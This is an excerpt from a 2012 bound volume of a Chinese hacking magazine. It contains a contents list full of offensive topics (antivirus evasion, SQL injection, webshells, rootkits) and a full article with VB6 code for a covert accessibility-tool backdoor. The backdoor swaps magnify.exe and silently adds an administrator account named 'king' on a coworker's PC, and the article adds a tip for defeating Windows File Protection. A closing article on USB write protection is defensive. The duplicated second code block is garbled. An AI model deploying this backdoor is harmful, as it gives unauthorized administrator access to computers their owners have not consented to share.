# 黑客X档案合订本2012年（上）第一部分

---

# 《黑客X档案》2012合订本上卷

## 鸟学堂
- 装后门轻松绕过系统密码验证
- Word文档窃取木马开发思路之VB篇
- Windows XP中巧妙掌控上网权限
- 汇编语言中运行批处理指令
- 用恢复控制台，快速修复系统故障

### 挖黑客
- IP映射技术杂谈
- 抗四大杀软——记一次不完美的免杀
- 抓包利器，你可以拥有
- 木马跳板上线，隐藏你的真实上线地址
- 本地巧暴MD5
- 赤手空拳追踪病毒的踪迹
- 一些高手“不属于”常说的……
- 打造“黑客帝国”式CMD

### 其他精彩导读
- IDA静态分析爆破crackme
- 玩转Android全攻略
- 打造自己的PE文件查看器
- 电子取证对抗——磁盘销毁
- 驱动级文件隐藏技术
- 大师的壳子，我来碰一碰
- 破解PDF控件中的水印
- 菜鸟也来编写远控
- 反调试检测
- 破解零起步

### 安全第一
- 巧用映像劫持斩杀顽固病毒
- 为网络端口巧设“加密锁”
- 无线安全之开放无线网络不安全
- Win8保护最强音——免费杀软也强大
- 亦可矛，亦可盾

## 出版信息
- 出品人：冯硕
- 主编：Ace
- 编辑部主任：周晓峰
- 编辑部：呆呆虫/虫虫/筱娜
- 黄色潜水艇/L烦の疯
- 特约编辑：炫风舞/txcbg/圣智
- 沧海浮萍/Hx小龙/suno
- 光盘部：格式化
- 设计：阮全勇
- 排版：QuanLu
- 发行部经理：赵琦
- 联系电话：010-88561472
- 联系电话：010-88560080
- E-Mail：hackerxfiles@263.net
- 定价：人民币35.00元（光盘+图书）

声明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们的稿酬已经含广告及报纸资源。如有相关问题，请作者及时与我们联系。

## 目录

### 黑客经验
- 2012.01  另类后门轻松绕过系统密码验证 …… 9
- 2012.01  数据安全终极防御——自己动手给U盘加把锁 …… 10
- 2012.01  VB编写另类IE主页锁定 …… 11
- 2012.01  Word文档窃取木马开发思路之VB篇 …… 12
- 2012.01  下载，就是要“免”！ …… 14
- 2012.02/03  兼容不是小儿科——exe文件关联的惨案 …… 16
- 2012.02/03  Veil免杀（一）——初识免杀 …… 18
- 2012.02/03  Veil免杀（二）——免杀的关键 …… 20
- 2012.02/03  Veil免杀（三）——金山卫士你不行！ …… 24
- 2012.02/03  在Windows XP中巧妙掌控上网权限 …… 26
- 2012.02/03  在Windows中快速建立“隐形”账户 …… 27
- 2012.02/03  巧解易语言中运行批处理指令 …… 29
- 2012.04  强大的自校验，弱不禁风的注册码验证 …… 31
- 2012.04  注入点是“饰”出来的！ …… 34
- 2012.04  最新3389大杀伤力漏洞小试 …… 35
- 2012.05  叠个WebShell来练手 …… 39
- 2012.05  “社”个账号借用一下 …… 40
- 2012.05  强大的自校验，弱不禁风的注册码验证（强力插入） …… 41
- 2012.05  巧设“暗哨”，捕捉潜入系统的不速之客 …… 44
- 2012.05  巧用恢复控制台，快速修复系统故障 …… 46
- 2012.05  优盘巧变家长手中的“魔杖” …… 48
- 2012.06  EXE程序美化 …… 49
- 2012.06  彻底斩断伸向键盘的“黑手” …… 52

### QQ聊天
- 2012.04  QQ空间伞兵——技巧“集结号” …… 57
- 2012.04  QQ想挂多少就挂多少 …… 62
- 2012.04  QQ打造比VIP还VIP的非VIP …… 63
- 2012.05  MTK版QQ再战后台运行 …… 64
- 2012.05  社工神器——QQ圈子试用手记 …… 65

### 无线网络
- 2012.05  想上网？要先突破电信路由共享限制 …… 67
- 2012.05  记一次在学校图书馆的无线钓鱼攻击 …… 69

### 攻防绝学
- 2012.01  Android提权和安装Backtrack …… 73
- 2012.01  DNS 区域传送的伪造 …… 75
- 2012.01  PHP也来实现计算MD5和SHA1散列 …… 76
- 2012.01  穿墙妙招——浅议端口复用技术 …… 78
- 2012.01  端口映射技术杂谈 …… 79
- 2012.01 对抗四大杀软——记一次不完美的免杀 …… 81
- 2012.01 利用mysql注入点直接提权 …… 83
- 2012.02/03 加壳？用这个！—— Zprotect …… 85
- 2012.02/03 巧设密码门，让Remote Administrator随用随开 …… 89
- 2012.02/03 深入浅出软件限制策略 …… 90
- 2012.02/03 输入表隐藏的手工实现 …… 92
- 2012.02/03 通过微博社工得实习老师QQ号 …… 96
- 2012.02/03 小端口，大作用——深入探寻TCP 139端口的“潜力” …… 97
- 2012.02/03 菜鸟小试“DEDECMS备份数据路径泄露”漏洞 …… 98
- 2012.02/03 QQ校友防社工术 …… 100
- 2012.02/03 数据丢失也能强力恢复 …… 101
- 2012.02/03 校园黑客行之弱口令之痛 …… 103
- 2012.02/03 抓包利器，你可以拥有 …… 104
- 2012.02/03 木马跳板上线，隐藏你的真实上线地址 …… 108
- 2012.04 Seo风尚，我们的圈里圈外 …… 110
- 2012.04 XP干走不死与Win8再战双系统 …… 112
- 2012.04 本地巧暴MD5 …… 114
- 2012.04 菜鸟小“套”RR网数据库 …… 116
- 2012.04 菜鸟也来写漏洞利用程序 …… 118
- 2012.04 小试神奇的“神器” …… 121
- 2012.05 疯狂论坛刷金币之“偷梁换柱” …… 123
- 2012.05 云海中的汉化（动态修改技巧） …… 124
- 2012.05 修改小软件的数据库连接字符串 …… 127
- 2012.05 注入？Safe3 SQL不错！ …… 128
- 2012.05 巧用FusionMaps做中国地图统计网站来源图 …… 129
- 2012.06 赤手空拳追踪病毒的踪迹 …… 130
- 2012.06 蛋疼的“咿呀咿呀”注入洞洞 …… 131
- 2012.06 无需工具，轻松越狱 …… 132
- 2012.06 小菜初试PHP2EXE暴DEDECMS …… 135

### 杂谈
- 2012.04 简单病毒样本分析 …… 137
- 2012.04 另类病毒的自删除方法 …… 142

### 侠隐仙踪
- 2012.01 寻情记（六） …… 145
- 2012.01 输给了一个等字 …… 148
- 2012.02/03 寻情记（七） …… 151
- 2012.04 IT男——留不住的年华，挥不去的情愁 …… 154
- 2012.05 寻情记（八） …… 157
- 2012.05 青春是一首晦涩难懂的诗 …… 161

## UNIX黑客行
- 2012.06 linux下的mysql提权 …… 163
- 2012.06 在Linux中快速加密文件 …… 168
- 2012.06 在Linux中限制ROOT权限的小技巧 …… 169

### 一个人的战斗
- 2012.01 JBoss拿shell一例 …… 170
- 2012.01 W78企业网站管理系统全角度分析 …… 171
- 2012.01 对某公司站点的手工渗透 …… 176
- 2012.01 检测某学校小站 …… 179
- 2012.01 网奇EShop网上商城系统注射漏洞 …… 187
- 2012.02/03 记一次拿ColdFusion网站的shell …… 189
- 2012.02/03 记一次小型网站检测——传说中的田忠和 …… 190
- 2012.02/03 友情检测母校 …… 193
- 2012.02/03 看博，测站！ …… 194
- 2012.04 当工具遭遇“长度”瓶颈时 …… 197
- 2012.04 被SQL注入击倒的广州信息网程序 …… 200
- 2012.04 实战入侵？Follow him! …… 201
- 2012.04 网海捞“台”记 …… 203
- 2012.04 一次失败的旁注提权手 …… 205
- 2012.04 友情检测某网站 …… 210
- 2012.05 DedeCMS 后门漏洞利用程序编写 …… 212
- 2012.05 都是“默认”的错？ …… 218
- 2012.05 一次拿shell的过程 …… 222
- 2012.06 CVE-2012-1823的菜鸟级体验 …… 224
- 2012.06 DedeCMS 5.7 最新注入和上传漏洞 …… 227
- 2012.06 手工Post注入 …… 231
- 2012.06 让渗透走上“复兴”之路 …… 232

### 安全第一
- 2012.01 电脑操作，我要隐形化 …… 244
- 2012.01 巧用映像劫持斩杀顽固病毒 …… 249
- 2012.01 为网络端口巧设“加密锁” …… 251
- 2012.01 严防数据窃贼，为文件巧穿“防护衣” …… 253
- 2012.02/03 LastPass：您信息安全的最后一把锁 …… 255
- 2012.02/03 申诉QQ的绝杀秘籍 …… 256
- 2012.04 无线安全之开放无线网络不安全 …… 257
- 2012.04 Win8保护最强音——免费杀软也强大 …… 259
- 2012.05 亦可矛，亦可盾 …… 261
- 2012.06 关于局域网入侵，浅谈菜鸟阵营 …… 264
- 2012.06 密码巧“保鲜”，加密变透明 …… 266
- 2012.06 用“MM”轻取Windows登陆密码 …… 268
- 2012.06 装个文件监控器 保护网站安全 …… 270

### 黑客初级院
- 2012.01 PHP注入漏洞，获取root，最后留下rootkit …… 272
- 2012.02/03 XTEA 加密算法研究与实现 …… 275
- 2012.02/03 Linux后门技术 …… 279

### 技术论坛
- 2012.01 php实战攻略（7）——SQL篇 … 283
- 2012.01 小小的实现一个远程（7）——注册表的管理 … 286
- 2012.01 走进C++（3） … 289
- 2012.02/03 php实战攻略（8）——SQL篇 … 291
- 2012.02/03 php实战攻略（9）——SQL篇 … 293
- 2012.02/03 小小的实现一个远程（8）——注册表的管理 … 295
- 2012.02/03 小小的实现一个远程（9）——注册表的管理 … 297
- 2012.02/03 走进C++（4） … 300
- 2012.02/03 走进C++（5） … 303
- 2012.04 php实战攻略（10）——SQL篇 … 305
- 2012.04 小小的实现一个远程（10）——注册表的管理 … 307
- 2012.04 走进C++（6） … 310
- 2012.05 php实战攻略（11） … 312
- 2012.05 小小的实现一个远程（11） … 314
- 2012.05 走进C++（7） … 317

### 软件园
- 2012.05 C++ 虚函数深入剖析 … 320
- 2012.05 IDA静态分析爆破crackme … 322
- 2012.05 入侵VMProtect保护的软件 … 324

### 黑客编程
- 2012.01 本地服务检测工具 … 328
- 2012.01 端口进程检测工具 … 331
- 2012.01 反调试检测 … 333
- 2012.02/03 别动我的文件——DES加密文件 … 336
- 2012.02/03 打造自己的PE文件查看器 … 338
- 2012.02/03 电子取证对抗——磁盘销毁 … 340
- 2012.02/03 妙用KeyMake做游戏外挂 … 343
- 2012.02/03 巧用Route命令抗击ARP欺骗 … 346
- 2012.02/03 驱动级文件隐藏技术 … 347
- 2012.02/03 找到根源，突破一切限制（碰一碰） … 351
- 2012.04 大师的壳子，我来碰一碰 … 355
- 2012.04 找到根源，突破一切限制（绝杀篇） … 358
- 2012.04 简单逆向分析修改软件标题 … 363
- 2012.04 云海中的汉化（动态修改技巧） … 366
- 2012.04 菜鸟也来编写远控 … 369
- 2012.05 VB制作能计算网速的带进度的下载器 … 371
- 2012.05 菜鸟也来编写远控（二） … 373
- 2012.05 多重缓冲 VS 20G大数据 … 375
- 2012.05 破解PDF控件中的水印 … 378
- 2012.05 再战 shellcode … 379
- 2012.06 Lion下载者ShellCode逆向分析 … 381
- 2012.06 Python学习笔记之生成给定范围内的IP地址列表 … 387
- 2012.06 vc++ & 易语言 … 393
- 2012.06 win32汇编系列教程① … 396
- 2012.06 编写简易安全删除工具 …… 399
- 2012.06 RootKit：深入Windows内核中挂钩系统服务的方法 …… 401

### 破解园
- 2012.01 破解零起步（十三）——认识断点(下) …… 412
- 2012.02/03 破解零起步（十四）——对于VB程序的破解 …… 418
- 2012.04 破解零起步（十五）——对于Delphi程序的破解 …… 424
- 2012.05 破解零起步（十六）——对于C++程序的破解 …… 429
- 2012.06 破解零起步（十七）——对于C++程序的破解（下） …… 437

### 灰黑原创
- 2012.01 惊！！！400M数据存储空间免费用 …… 442
- 2012.01 那些尘封的0Day，你们还好吗？ …… 443
- 2012.02/03 通过嗅探获取本机运行的QQ号 …… 444
- 2012.02/03 LanHelper算法分析与注册机的编写 …… 449
- 2012.02/03 软件汉化之菜鸟入门三部曲 …… 461

### Android手机
- 2012.04 打造Android头像查看器 …… 464
- 2012.04 让安卓应用奔腾在电脑之上 …… 467
- 2012.04 云临天下——免费畅爽体验Android手机 …… 469
- 2012.05 玩转Android全攻略（一） …… 470
- 2012.05 微信——“危”信 …… 474
- 2012.05 为“应用”牵线，为“安卓”搭桥 …… 475

## 光盘索引

### 资料安全视频防御——自己动手给U盘加把锁
首先介绍一下今天的主角——USB WriteProtector，翻译过来就是USB写保护。这是一款绿色软件，解压后可直接运行；在 Vista 和 Win7 下需管理员权限。使用前需先拔出已连接的 USB 设备，否则无法开启写保护。界面很简洁，选择“开启USB写入保护”后关闭程序即可，这样再插入U盘时即可避免被写入。

### 巧用映像劫持斩杀顽固病毒
现在的病毒越来越狡猾，常采用双进程守护：两个相近进程互相监视，被结束后会自动拉起，导致难以清除。文中案例中系统变慢、网络灯异常闪烁，任务管理器出现可疑进程“server.exe”和“explorer.exe”，互相重启。作者通过映像劫持思路较轻松地完成清理。

### LastPass：让账号安全的后盾更强
近期网站泄库事件频发，单一或弱口令风险很高。更好的方式是不同网站使用不同复杂密码，但记忆成本高。文中推荐 LastPass 这类密码管理工具：只需记住一个主密码即可管理多站点登录，兼顾便利与安全性。以记忆自己的密码为例，便携性和安全性仍有提升空间。使用 LastPass 后，无需记忆大量密码，一键即可登录多个网站。注册账号时人们常因图省事而复用密码，这很不安全；密码管理器可在提高使用效率的同时增强账户安全。

### 这有手机版QQ手机令牌
QQ有多种密保工具（安全手机、密保卡、令牌等）。手机令牌提升了账号安全并减少随身携带实体卡的不便。文中提到其在部分平台支持上的局限，并提出“手机端不行可考虑PC端替代方案”的思路。下面介绍电脑上的 JAVA 模拟器——KEmulator。其操作与模拟效率较高，可用于在PC上运行相关J2ME应用，相比其他模拟路线更轻量、启动更快。

### 注入点检测准备出鞘
文章以SQL注入检测流程为例：先对目标站点做初步观察，查找疑似注入点链接（如带参数URL），再复制到检测工具中执行测试。若提示不可注入则继续排查；若提示可注入则进入后续字段、库表等枚举阶段。核心观点是：确认“是否存在注入点”是后续Web攻击链条的前提。

### Win8终极杀软——免费杀软也强大
围绕 Windows 8 的安全兼容性，文中讨论了免费安全软件方案，并推荐 AVAST! 免费版。结合市场份额排行与实际可用性，给出从官网获取最新版的建议。

### 记一次在交通网络的荒野游击战
本节介绍ARP欺骗原理：IP到MAC解析依赖ARP，攻击者可伪造映射，将原本发往目标的数据导向自身，再转发给真实目标，形成“中间人”链路。文中用“投递邮件被冒领再转交”的类比解释该过程。

### 另类后门轻松“纪念”系统备份注册

Evan

最近一个朋友向我求助，他刚上班，公司还没给配电脑，只能蹭同事的电脑用用，不过电脑都有密码。我原本是想直接把密码给破了的，不过他说同事的密码会经常改。好吧，就做个后门吧。

#### 一、后门构思

原本是想弄个粘滞键后门，想想还是算了，粘滞键后门太多人用了，还是弄点不常用的吧。找了半天，决定在辅助工具管理器上面下手（可按 Win + U 打开），如图1。但是不能直接从它身上下手，辅助工具管理器里面有两个小工具，一个是放大镜（“magnify.exe”），一个是屏幕键盘（“osk.exe”）。我的构思是这样的：将放大镜改名为“magnify1.exe”，再把我们的后门复制到 System32 目录下，更名为“magnify.exe”。当我们的后门打开时，检测 NumLock 灯是否亮起，再检测 CapsLock 灯是否亮起，最后检测 ScrollLock 灯是否亮起，如果是的话，添加一个用户；没有的话则删除特定的用户，详细的流程如图2。







#### 二、编程实现

编程语言选择 VB，IDE 是 VB6.0。我们做这个后门需要用上 API 函数，什么是 API 函数呢？API 说到底就是一系列的底层函数，是系统提供给用户用于进入操作系统核心、进行高级编程的途径。通过在 Visual Basic 应用程序中声明外部过程就能够访问 Windows API（以及其它的外部 DLLs）。在声明了过程之后，调用它的方法与调用 Visual Basic 自己的过程相同。

我们这里要用到的 API 函数就是 GetKeyState 函数，这个 API 函数的作用是查询某个键的当前状态，若我们查询的键处于按下状态则会返回 1，不处于按下状态则返回 0。

在 VB 里调用 API 函数需要声明，声明很简单，只要在程序的声明处输入声明的代码就可以了，代码可以在网上找到。这里提供一本电子书，里面收录有常用的 API 函数，而且提供 VB 的声明代码，图3就是电子书对 GetKeyState 函数的解释。

打开 VB6，新建“标准 EXE 工程”，在工程资源管理器中移除“Form1”，再添加一个模块。我们添加模块之后，在弹出的代码编辑框输入 GetKeyState 函数的声明代码。

来就是后门的代码编写，代码如下：

```vb
Sub Main()
If GetKeyState(20) = 1 Then
  '20是CapsLock键的ASCII值
  If GetKeyState(144) = 1 Then
    '144是NumLock键的ASCII值
    If GetKeyState(145) = 1 Then
      '145是ScrollLock键的ASCII值
      Shell ("net user king king /add")
      '如果三个灯都亮了则执行添加账户的命令
      Shell ("net localgroup administrators king /add")
      '执行将之前添加的账户提升至管理员
    ElseIf GetKeyState(145) = 0 Then
      '如果ScrollLock灯没有亮起，则执行下面的命令
      Shell ("net user king /del")
      '把我们添加的用户删除
      Shell ("cmd.exe /c rd ...")
    End If
  End If
End If
End Sub
```

```vb
ElseIf GetKeyState(144) = 1 Then
  '如果NumLock灯没有亮起，则执行下面的命令
  Shell ("magnify1.exe")
  '运行正常的放大镜
ElseIf GetKeyState(20) = 1 Then
  Shell ("magnify1.exe")
End If
End If
End If
End Sub
```

“net user king king /add”的作用是添加一个账户名和密码都为 king 的账户，大家只需把“king”改成自己想要的就行了，还有后面的命令也要改哦。除此之外，Windows NT 系统有 WFP 机制，即保护系统文件。这个机制很好突破，只需将我们的后门在复制到 System32 目录的同时，也复制一份到 System32 下的 dllcache 目录中……（文中涉及的相关代码本期光盘已收录）

## 数据安全终极防御

## ——自己动手给U盘加把锁

最近，通过 U 盘传播的病毒越来越猖狂了，我的 U 盘连续感染了几次，很多数据都没有了，都闷啊。大家可能也遇到过这种问题，现在我就来教友子们一种无敌的方法，管它什么 U 盘病毒，从此以后都不用怕了。

大家都知道读卡器有的带有写保护的功能，可以有效地防止内存卡被病毒感染，可惜 U 盘不带有这种功能，那我们要怎么办呢？给 U 盘厂商提意见吗？NO。这样太被动了。作为黑客的我们应该要有主动意识，现在我就来教大家给自己的 U 盘加上读写锁的功能吧。

首先介绍一下今天的主角——USB WriteProtector，翻译过来就是 USB 写保护。这是一款绿色软件。大家把压缩包解压之后，一般直接打开可执行文件就可以了。但在 Vista 和 Win7 环境下，需要以管理员的身份运行，否则会出错哦。还有一点，在打开软件之前，需要将已连接 USB 设备先移除，不然的话之前连接的 USB 设备不能开启写保护。打开后界面如图1，界面很简洁，只有几个按钮，我们要开启写保护的时候就选择“开启 USB 写入保护”单选框，再关闭程序即可。这样我们就可以放心地插入 USB 设备了。



图1

现在我们来看看写保护的效果吧，U 盘病毒大都是通过 AutoRun.inf 文件来实现启动的。那我们就复制文件来模拟 U 盘病毒感染的过程。我们打开可移动磁盘，如图2。复制文件时提示磁盘被写保护，无法写入文件，如图3。当我们有数据需要保存时，先移除 USB 设备，再打开程序，取消掉写保护，再插入 USB 设备即可。



